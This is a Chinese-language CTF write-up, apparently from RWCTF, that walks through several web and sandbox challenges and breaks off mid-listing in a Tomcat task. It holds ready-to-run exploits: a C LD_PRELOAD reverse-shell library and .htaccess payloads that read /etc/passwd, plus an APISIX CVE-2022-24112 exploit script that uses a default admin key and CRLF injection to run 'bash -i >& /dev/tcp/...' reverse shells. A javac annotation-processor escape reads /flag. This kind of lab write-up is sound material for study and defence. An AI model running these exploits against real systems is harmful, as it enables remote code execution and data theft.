






## Hack-into-Skynet

```python
#!/usr/bin/env python3

import flask
import psycopg2
import datetime
import hashlib
from skynet import Skynet

app = flask.Flask(__name__, static_url_path='')
skynet = Skynet()

def skynet_detect():
    req = {
        'method': flask.request.method,
        'path': flask.request.full_path,
        'host': flask.request.headers.get('host'),
        'content_type': flask.request.headers.get('content-type'),
        'useragent': flask.request.headers.get('user-agent'),
        'referer': flask.request.headers.get('referer'),
        'cookie': flask.request.headers.get('cookie'),
        'body': str(flask.request.get_data()),
    }
    _, result = skynet.classify(req)
    return result and result['attack']

@app.route('/static/<path:path>')
def static_files(path):
    return flask.send_from_directory('static', path)

@app.route('/', methods=['GET', 'POST'])
def do_query():
    if skynet_detect():
        return flask.abort(403)

    if not query_login_state():
        response = flask.make_response('No login, redirecting', 302)
        response.location = flask.escape('/login')
        return response

    if flask.request.method == 'GET':
        return flask.send_from_directory('', 'index.html')
    elif flask.request.method == 'POST':
        kt = query_kill_time()
        if kt:
            result = kt 
        else:
            result = ''
        return flask.render_template('index.html', result=result)
    else:
        return flask.abort(400)

@app.route('/login', methods=['GET', 'POST'])
def do_login():
    if skynet_detect():
        return flask.abort(403)

    if flask.request.method == 'GET':
        return flask.send_from_directory('static', 'login.html')
    elif flask.request.method == 'POST':
        if not query_login_attempt():
            return flask.send_from_directory('static', 'login.html')
        else:
            session = create_session()
            response = flask.make_response('Login success', 302)
            response.set_cookie('SessionId', session)
            response.location = flask.escape('/')
            return response
    else:
        return flask.abort(400)

def query_login_state():
    sid = flask.request.cookies.get('SessionId', '')
    if not sid:
        return False

    now = datetime.datetime.now()
    with psycopg2.connect(
            host="challenge-db",
            database="ctf",
            user="ctf",
            password="ctf") as conn:
        cursor = conn.cursor()
        cursor.execute("SELECT sessionid"
           "  FROM login_session"
           "  WHERE sessionid = %s"
           "    AND valid_since <= %s"
           "    AND valid_until >= %s"
           "", (sid, now, now))
        data = [r for r in cursor.fetchall()]
        return bool(data)

def query_login_attempt():
    username = flask.request.form.get('username', '')
    password = flask.request.form.get('password', '')
    if not username and not password:
        return False

    sql = ("SELECT id, account"
           "  FROM target_credentials"
           "  WHERE password = '{}'").format(hashlib.md5(password.encode()).hexdigest())
    user = sql_exec(sql)
    name = user[0][1] if user and user[0] and user[0][1] else ''
    return name == username

def create_session():
    valid_since = datetime.datetime.now()
    valid_until = datetime.datetime.now() + datetime.timedelta(days=1)
    sessionid = hashlib.md5((str(valid_since)+str(valid_until)+str(datetime.datetime.now())).encode()).hexdigest()

    sql_exec_update(("INSERT INTO login_session (sessionid, valid_since, valid_until)"
           "  VALUES ('{}', '{}', '{}')").format(sessionid, valid_since, valid_until))
    return sessionid

def query_kill_time():
    name = flask.request.form.get('name', '')
    if not name:
        return None

    sql = ("SELECT name, born"
           "  FROM target"
           "  WHERE age > 0"
           "    AND name = '{}'").format(name)
    nb = sql_exec(sql)
    if not nb:
        return None
    return '{}: {}'.format(*nb[0])

def sql_exec(stmt):
    data = list()
    try:
        with psycopg2.connect(
                host="challenge-db",
                database="ctf",
                user="ctf",
                password="ctf") as conn:
            cursor = conn.cursor()
            cursor.execute(stmt)
            for row in cursor.fetchall():
                data.append([col for col in row])
            cursor.close()
    except Exception as e:
        print(e)
    return data

def sql_exec_update(stmt):
    data = list()
    try:
        with psycopg2.connect(
                host="challenge-db",
                database="ctf",
                user="ctf",
                password="ctf") as conn:
            cursor = conn.cursor()
            cursor.execute(stmt)
            conn.commit()
    except Exception as e:
        print(e)
    return data

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8080)

```

skynet_detect 有个 WAF，直接利用 HTTP 协议的 `multipart/form-data` 数据格式绕过，有解析差异


没用占位符，可以 sql 注入，闭合正常注入就可以了

## RWDN

这里就是一个双文件上传，即可绕过上传 .htaccess 文件，而且 .htaccess 文件的话可以用来进行任意文件读取，这个打 XCTF 的时候我们是知道的，可能就是从 RWCTF 里面流传下来的一个特性，
```conf
ErrorDocument 404 "%{file:/etc/passwd}"
```

只要这么写，报错页 404 就是 passwd 的内容，
```http
POST /upload?formid=form-636080e5-e589-433d-9fa5-2e8ec0f5ba132 HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0 Safari/537.36
Accept: */*
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryG9WWWEEOTX4T6bTg
Content-Length: 478

------WebKitFormBoundaryG9WWWEEOTX4T6bTg
Content-Disposition: form-data; name="form-636080e5-e589-433d-9fa5-2e8ec0f5ba132"; filename="2.txt"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryG9WWWEEOTX4T6bTg
Content-Disposition: form-data; name="form-636080e5-e589-433d-9fa5-2e8ec0f5ba13"; filename=".htaccess"
Content-Type: application/octet-stream

ErrorDocument 404 "%{file:/etc/apache2/apache2.conf}"
------WebKitFormBoundaryG9WWWEEOTX4T6bTg--
```

读取到 apache 配置文件为
```conf
# Include of directories ignores editors' and dpkg's backup files,  
# see README.Debian for details.  
ExtFilterDefine 7f39f8317fgzip mode=output cmd=/bin/gzip  
  
# Include generic snippets of statements  
IncludeOptional conf-enabled/*.conf  
  
# Include the virtual host configurations:  
IncludeOptional sites-enabled/*.conf
```

`ExtFilterDefine 7f39f8317fgzip mode=output cmd=/bin/gzip` 启用并定义了 Apache 的 `mod_ext_filter` 模块过滤器。

`mod_ext_filter` 可以将 HTTP 响应体交由外部系统命令（此处为 `/bin/gzip`）处理。这意味着每次触发该过滤器时，Apache 都会通过 `fork()` 和 `execve()` 派生（Spawn）一个新的操作系统子进程。所以我们劫持环境变量即可 RCE

```
SetEnv LD_PRELOAD "/var/www/html/xxx/1.so"
SetOutputFilter 7f39f8317fgzip
```


```c
#define _GNU_SOURCE
#include <unistd.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

#define LHOST "x.x.x.x"
#define LPORT 4444

__attribute__((constructor))
static void revshell(void)
{
    struct sockaddr_in sa;
    int fd = socket(AF_INET, SOCK_STREAM, 0);
    if (fd < 0)
        return;

    sa.sin_family = AF_INET;
    sa.sin_port = htons(LPORT);
    sa.sin_addr.s_addr = inet_addr(LHOST);

    if (connect(fd, (struct sockaddr *)&sa, sizeof(sa)) < 0) {
        close(fd);
        return;
    }

    switch (fork()) {
    case -1:
        close(fd);
        return;
    case 0:  /* 子进程：脱终端 + 重定向 + 起 shell */
        setsid();
        dup2(fd, 0);
        dup2(fd, 1);
        dup2(fd, 2);
        close(fd);
        execl("/bin/sh", "sh", NULL);
        _exit(0);
    default: /* 父进程（gzip）立即退出，HTTP 响应不挂起 */
        close(fd);
        _exit(0);
    }
}

//gcc -shared -fPIC -o 1.so 1.c
```

## API6

由于年久失修，改一下拉取的镜像即可启动

```yaml
version: "3.9"
services:
  etcd:
    image: "bitnamilegacy/etcd"
    expose:
      - "2379"
    environment:
      ALLOW_NONE_AUTHENTICATION: "yes"

  apisix:
    image: "apache/apisix:2.10.0-centos"
    ports:
      - "9080"
    volumes:
      - "./conf/config.yaml:/usr/local/apisix/conf/config.yaml"
      - "./flag.txt:/flag"
    deploy:
      restart_policy:
        condition: on-failure
        delay: 1s
        max_attempts: 5
```

查看题目提供的 config.yaml

```yaml
#
# Licensed to the Apache Software Foundation (ASF) under one or more
# contributor license agreements.  See the NOTICE file distributed with
# this work for additional information regarding copyright ownership.
# The ASF licenses this file to You under the Apache License, Version 2.0
# (the "License"); you may not use this file except in compliance with
# the License.  You may obtain a copy of the License at
#
#     http://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.
#
# If you want to set the specified configuration value, you can set the new
# in this file. For example if you want to specify the etcd address:
#
# etcd:
#     host:
#       - http://127.0.0.1:2379
#
# To configure via environment variables, you can use `${{VAR}}` syntax. For instance:
#
# etcd:
#     host:
#       - http://${{ETCD_HOST}}:2379
#
# And then run `export ETCD_HOST=$your_host` before `make init`.
#
# If the configured environment variable can't be found, an error will be thrown.
apisix:
  admin_key:
    - name: admin
      key: edd1c9f034335f136f87ad84b625c8f1  # using fixed API token has security risk, please update it when you deploy to production environment
      role: admin

etcd:
  host:
    - http://etcd:2379

```

是标准的 APISIX 2.x 配置,admin key 用的默认值 `edd1c9f034335f136f87ad84b625c8f1`,没有改。整体就是一个裸的 APISIX 网关,入口只有 9080 一个端口,目标是 RCE。

### 分析

先看表面。直接访问 `/apisix/admin/*` 返回 403,nginx 配置里 admin location 做了 `allow 127.0.0.0/24; deny all;`,外部 IP 进不来。admin API 才是真正能改路由的地方,所以第一步是绕过这个 IP 限制。

突破口是 batch-requests 插件。这个插件允许在 POST /apisix/batch-requests 的 body 里带一个 pipeline 数组,每个子请求会被 APISIX 自己转发处理。转发是用 cosocket 直连本机端口,插件源码里就是这么写的:

```lua
local httpc = http.new()
httpc:set_timeout(data.timeout)
local ok, err = httpc:connect("127.0.0.1", ngx.var.server_port)
```

子请求从 APISIX 进程自己发出去,对端 IP 就是 127.0.0.1,天然满足 admin 的 IP 白名单。也就是说只要能把请求送进 batch-requests,就能以本地身份访问 admin API。CVE-2022-24112 描述的正是这件事，2.12.1 之前,插件对子请求头里的 X-Real-IP 处理有个大小写 bug,攻击者直接伪造 `X-Real-IP: 127.0.0.1` 就能把真实客户端 IP 盖掉,从而通过后面 realip 模块的检查。官方修复就是 set_common_header 里的两行:

```diff
+    -- we don't need to handle '_' to '-' as Nginx won't treat 'X_REAL_IP' as 'X-Real-IP'
+    real_ip_hdr = str_lower(real_ip_hdr)
```

把 real_ip_header 配置(通常是 "X-Real-IP")统一转成小写,再去覆盖子请求里的小写键,伪造的假 IP 就被真实的替换掉了。2.12.1 和 2.13.0 的 batch-requests.lua 逐字节一致,修复到此为止。

但这条修复管不到另一个面。子请求的 path 参数在拼进实际请求行时没有任何过滤,resty.http 的 `_format_request` 是直接原样拼接的:

```lua
local req = {
    str_upper(params.method),
    " ",
    self.path_prefix or "",
    params.path,
    query,
    HTTP[version],
    true,
    true,
    true,
}
```

path 里塞 `\r\n` 就能在 cosocket 发出的字节流里注入任意请求头和 body。官方 CVE 描述里没提这条,2.13.0 到现在也没给 batch-requests 加 CRLF 校验。所以即使 X-Real-IP 那条被修了,用 CRLF 注入伪造一个带 `X-API-KEY` 和任意头的内部请求照样能访问 admin API。

拿到 admin API 之后怎么执行命令,有两条路,两条我都通了。

第一条是 route 的 `script` 字段。APISIX 2.x 的 admin API 在创建路由的时候就会校验并执行这段 Lua,校验逻辑在 apisix/admin/routes.lua:

```lua
if conf.script then
    local obj, err = loadstring(conf.script)
    if not obj then
        return nil, {error_msg = "failed to load 'script' string: "
                                     .. err}
    end

    if type(obj()) ~= "table" then
        return nil, {error_msg = "'script' should be a Lua object"}
    end
end
```

loadstring 编译完之后立刻 `obj()` 执行,命令在 admin 进程里跑完,之后才轮到 `type(obj())` 检查返回值。只要 script 没有 return,这里就会抛 `bad argument #1 to 'type' (value expected)`,admin 返回 500。但 io.popen 已经执行完了,500 只是吞掉了 ngx.say 的回显。

第二条是 route 的 `filter_func` 字段。它和 script 不同,校验时做的是 `loadstring("return " .. conf.filter_func)`,要求编译结果是一个函数,真正执行发生在路由匹配阶段，请求打过来命中这条路由时 `filter_func(vars)` 被调用,os.execute 在里面跑。

### 测试

用 filter_func 变体在本地 2.10.0 上走一遍。先起监听:`nc -lvnp 4444`。然后发给 batch-requests 的完整请求是这样的:

```http
POST /apisix/batch-requests HTTP/1.1
Host: 127.0.0.1:56230
Content-Type: application/json

{"headers":{"X-Real-IP":"127.0.0.1","X-API-KEY":"edd1c9f034335f136f87ad84b625c8f1"},"pipeline":[{"method":"PUT","path":"/apisix/admin/routes/666","body":"{\"uri\": \"/rms/24112\", \"methods\": [\"GET\"], \"upstream\": {\"type\": \"roundrobin\", \"nodes\": {\"127.0.0.1:1\": 1}}, \"filter_func\": \"function(vars) os.execute('bash -i >& /dev/tcp/host.docker.internal/4444 0>&1'); return true end\"}"}]}
```

子请求头里伪造了 X-Real-IP 和 X-API-KEY,2.10.0 没有 str_lower 修复,伪造直接生效。PUT 返回 200,路由落库。接着 GET /rms/24112 触发。

CRLF 变体的请求体长这样,path 字段里直接塞了一整个伪造的内部请求:

```json
{
  "headers": {"SICE": "me"},
  "timeout": 500,
  "pipeline": [{
    "method": "PUT",
    "path": "/apisix/admin/routes/1 HTTP/1.1\r\nHost: 127.0.0.1\r\nX-API-KEY: edd1c9f034335f136f87ad84b625c8f1\r\ncmd: cat /flag > /tmp/flag_pwned\r\nContent-Length: 175\r\n\r\n{\"methods\": [\"GET\"], \"uri\": \"/sice\", \"script\": \"local file = io.popen(ngx.req.get_headers()['cmd'], 'r') \\n local output = file:read('*a') \\n file:close() \\n ngx.say(output)\"}\r\n\r\n",
    "body": "test2"
  }]
}
```

Content-Length 175 是 payload JSON 的真实字节数,和 body 严格对齐。resty.http 把 path 拼进请求行后,cosocket 实际发到 127.0.0.1:9080 的字节流是:

```
PUT /apisix/admin/routes/1 HTTP/1.1
Host: 127.0.0.1
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
cmd: cat /flag > /tmp/flag_pwned
Content-Length: 175

{"methods": ["GET"], "uri": "/sice", "script": "local file = io.popen(ngx.req.get_headers()['cmd'], 'r') \n local output = file:read('*a') \n file:close() \n ngx.say(output)"}


 HTTP/1.1
Host: 127.0.0.1:9080
User-Agent: lua-resty-http/0.16.1 (Lua) ngx_lua/...
```

第一个请求被 admin 正常处理,script 在校验阶段执行`cat /flag`，但是最后的 ` HTTP/1.1` 这段残片被 nginx 当成 pipelined 请求解析,直接 400 关连接，resty.http 读不到第一个请求的响应，所以 batch 返回 504。

> 在 script 里 `\n` 在 JSON 文本中是两个字符的反斜杠转义,字节流里看到的是 `\\n`,解码成 Lua 字符串才是换行。

### exp

```python
#!/usr/bin/env python3
import base64
import json
import sys

import requests

HOST = "http://127.0.0.1:56230"
RHOST = "host.docker.internal"
RPORT = 4444
API_KEY = "edd1c9f034335f136f87ad84b625c8f1"
URI = "/rms/24112"
ROUTE_ID = 666

command = "bash -i >& /dev/tcp/%s/%s 0>&1" % (RHOST, RPORT)
encoded = base64.b64encode(command.encode("utf-8")).decode("ascii")

payload = {
    "uri": URI,
    "methods": ["GET"],
    "upstream": {"type": "roundrobin", "nodes": {"127.0.0.1:1": 1}},
    "filter_func": (
        "function(vars) os.execute(\"echo '%s' | base64 -d | bash\"); return true end"
        % encoded
    ),
}

body = {
    "headers": {"X-Real-IP": "127.0.0.1", "X-API-KEY": API_KEY},
    "pipeline": [
        {
            "method": "PUT",
            "path": "/apisix/admin/routes/%s" % ROUTE_ID,
            "body": json.dumps(payload),
        }
    ],
}

api = HOST.rstrip("/")
resp = requests.post(api + "/apisix/batch-requests", json=body, timeout=10)
if resp.status_code != 200:
    sys.exit("deploy failed: %s %s" % (resp.status_code, resp.text[:300]))
requests.get(api + URI, timeout=10)

# python3 exp.py
```



## Secured Java

```python
#!/usr/bin/env python
import os
import base64
import tempfile
import subprocess

SOURCE_FILE = "Main.java"
DEP_FILE = "dep.jar"


def get_file(filename: str):
    print(f"Please send me the file {filename}.")
    content = input("Content: (base64 encoded)")
    data = base64.b64decode(content)
    if len(data) > 1024 * 1024:
        raise ValueError("Too long")
    with open(filename, "wb") as fp:
        fp.write(data)


def main():
    print("Welcome to the secured Java sandbox.")
    with tempfile.TemporaryDirectory() as dir:
        os.chdir(dir)
        get_file("Main.java")
        get_file("dep.jar")
        print("Compiling...")
        try:
            subprocess.run(
                ["javac", "-cp", DEP_FILE, SOURCE_FILE],
                input=b"",
                check=True,
            )
        except subprocess.CalledProcessError:
            print("Failed to compile!")
            exit(1)

        print("Running...")
        try:
            subprocess.run(["java", "--version"])
            subprocess.run(
                [
                    "java",
                    "-cp",
                    f".:{DEP_FILE}",
                    "-Djava.security.manager",
                    "-Djava.security.policy==/dev/null",
                    "Main",
                ],
                check=True,
            )
        except subprocess.CalledProcessError:
            print("Failed to run!")
            exit(2)


if __name__ == "__main__":
    main()

```

可以提交 `Main.java` 和 `dep.jar` 两个文件，脚本先用 `javac -cp dep.jar Main.java` 编译，再用 `java` 运行。运行时`-Djava.security.manager` 开启了 SecurityManager，`-Djava.security.policy==/dev/null` 指定了策略文件。

Oracle 官方文档在 [Default Policy Implementation and Policy File Syntax](https://docs.oracle.com/en/java/javase/17/security/permissions-jdk1.html) 里明确写了
1. `-Djava.security.policy` 的值如果以 `=` 开头（即 `==path`），表示只使用这一个策略文件，跳过 `java.security` 里 `policy.url.n` 配置的所有默认策略
2. 如果是一个 `=`（即 `=path`），则是追加。

这里用 `==/dev/null`，意味着策略文件是 `/dev/null`——空文件，不授予任何 CodeSource 任何 Permission。运行时任何需要 SecurityManager 检查的操作（读文件、执行命令、反射等等）都会抛 `AccessControlException`。

验证一下确实是这样。提交一个尝试读 `/flag` 的 `Main.java`，运行时直接被拦：

```
Exception in thread "main" java.security.AccessControlException: access denied ("java.io.FilePermission" "/flag" "read")
    at java.base/java.security.AccessControlContext.checkPermission(AccessControlContext.java:485)
    at java.base/java.security.AccessController.checkPermission(AccessController.java:1068)
    at java.base/java.lang.SecurityManager.checkPermission(SecurityManager.java:416)
    ...
```

所以运行层基本没戏。但是脚本中编译和运行是分开的，编译命令是 `javac -cp dep.jar Main.java`，没有任何 SecurityManager 相关参数。

> `javac` 编译过程中能执行代码的机制，最典型的就是注解处理器（Annotation Processor）。这是 JSR 269（`javax.annotation.processing` 包）定义的标准 API，`javac` 在编译时会自动发现并运行 classpath 上的注解处理器。
> 这个行为在 `javac` 的官方文档里有说明：如果没有指定 `-processor` 选项，`javac` 会在 classpath（或 `-processorpath`，如果指定了的话）上通过 SPI 机制搜索 `META-INF/services/javax.annotation.processing.Processor` 文件，加载里面声明的处理器类。

题目里 `javac -cp dep.jar Main.java` 把 `dep.jar` 放在了 classpath 上，而且没有指定 `-processor` 或 `-processorpath`，所以 `dep.jar` 里的注解处理器会被自动发现和执行，这就够了，只要在 `dep.jar` 里塞一个注解处理器，在它的 `init` 方法里读 flag 文件并打印到 stdout 就行。

```java
import javax.annotation.processing.*;
import javax.lang.model.SourceVersion;
import javax.lang.model.element.*;
import java.nio.file.*;
import java.util.Set;

@SupportedAnnotationTypes("*")
@SupportedSourceVersion(SourceVersion.RELEASE_8)
public class FlagProcessor extends AbstractProcessor {

    @Override
    public synchronized void init(ProcessingEnvironment env) {
        super.init(env);
        try {
            System.out.println("FLAG:" + new String(Files.readAllBytes(Paths.get("/flag"))));
        } catch (Exception e) {
            System.out.println("FLAG:ERROR=" + e);
        }
    }

    @Override
    public boolean process(Set<? extends TypeElement> annotations, RoundEnvironment roundEnv) {
        return false;
    }
}
```

`Main.java` 不需要做任何事，编译通过就行：

```java
public class Main {
    public static void main(String[] args) {
    }
}
```

打包 `dep.jar` 时需要包含 `FlagProcessor.class` 和 `META-INF/services/javax.annotation.processing.Processor`（内容就一行：`FlagProcessor`）。

在临时的干净目录里面编译

```bash
mkdir -p /tmp/build/META-INF/services
javac -d /tmp/build FlagProcessor.java
echo "FlagProcessor" > /tmp/build/META-INF/services/javax.annotation.processing.Processor
cd /tmp/build && jar cf dep.jar .
```

exp 如下 

```python
#!/usr/bin/env python3
import base64
import os
import socket
import sys
import time

HOST = sys.argv[1] if len(sys.argv) > 1 else "127.0.0.1"
PORT = int(sys.argv[2]) if len(sys.argv) > 2 else 1337
DIR = os.path.dirname(os.path.abspath(__file__))


def recv_until(sock, pattern, timeout=15):
    sock.settimeout(timeout)
    buf = b""
    while pattern not in buf:
        try:
            chunk = sock.recv(4096)
            if not chunk:
                break
            buf += chunk
        except socket.timeout:
            break
    return buf


def send_file(sock, path):
    with open(path, "rb") as f:
        encoded = base64.b64encode(f.read()).decode()
    recv_until(sock, b"Content:")
    sock.sendall((encoded + "\n").encode())
    time.sleep(0.3)


def main():
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((HOST, PORT))
    recv_until(sock, b"Main.java")
    send_file(sock, os.path.join(DIR, "Main.java"))
    recv_until(sock, b"dep.jar")
    send_file(sock, os.path.join(DIR, "dep.jar"))
    data = recv_until(sock, b"FLAG:", timeout=20)
    try:
        data += sock.recv(4096)
    except socket.timeout:
        pass
    sock.close()
    text = data.decode(errors="replace")
    for line in text.splitlines():
        if line.startswith("FLAG:"):
            print(line[5:].strip())
            return
    print(text)


if __name__ == "__main__":
    main()
    
# python3 exploit.py 127.0.0.1 1337
```



## Desperate Cat

Tomcat 环境，一个接口能往 web 目录写文件，文件名前缀随机、后缀可控，内容过 HTML 转义还夹脏数据。有两种解法，官方 writeup 是四段 EL 链，WreckTheLine/Sauercloud 两队直接写 ASCII jar 打了，最后都成功复现了。

### 漏洞点

war 就三个类，反编译全贴

```java
package org.rwctf.servlets;

import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.nio.charset.StandardCharsets;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.rwctf.util.ParamUtil;
import org.rwctf.util.StringUtil;

public class ExportServlet extends HttpServlet {
    private File exportDir;

    public void init() throws ServletException {
        this.exportDir = new File(this.getServletContext().getRealPath("/export/"));
        if (!this.exportDir.exists()) {
            this.exportDir.mkdirs();
        }
    }

    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String dir = ParamUtil.getParameter(req, "dir");
        String fileName = ParamUtil.getParameter(req, "filename");
        String content = ParamUtil.getParameter(req, "content");
        if (StringUtil.isEmpty(content)) {
            this.outputMsg(resp, "Empty content");
            return;
        }
        if (StringUtil.isEmpty(fileName) || fileName.indexOf(46) < 0) {
            fileName = StringUtil.randomStr();
        } else {
            String fileExt = fileName.substring(fileName.lastIndexOf(46) + 1);
            fileName = StringUtil.randomStr() + "." + fileExt;
        }
        File saveFile = StringUtil.isEmpty(dir) ? new File(this.exportDir, fileName) : new File(this.getServletContext().getRealPath("/"), dir + File.separator + fileName);
        String data = "DIRTY DATA AT THE BEGINNING " + content + " DIRTY DATA AT THE END";
        this.writeBytesToFile(saveFile, data.getBytes(StandardCharsets.UTF_8));
        this.outputMsg(resp, saveFile.getAbsolutePath());
    }

    private void outputMsg(HttpServletResponse resp, String msg) throws IOException {
        resp.getWriter().write(msg);
    }

    private void writeBytesToFile(File dest, byte[] bytes) throws IOException {
        if (!dest.getCanonicalPath().startsWith(this.getServletContext().getRealPath("/"))) {
            throw new IOException("Illegal file path");
        }
        if (!dest.getParentFile().exists()) {
            dest.getParentFile().mkdirs();
        }
        FileOutputStream fos = null;
        try {
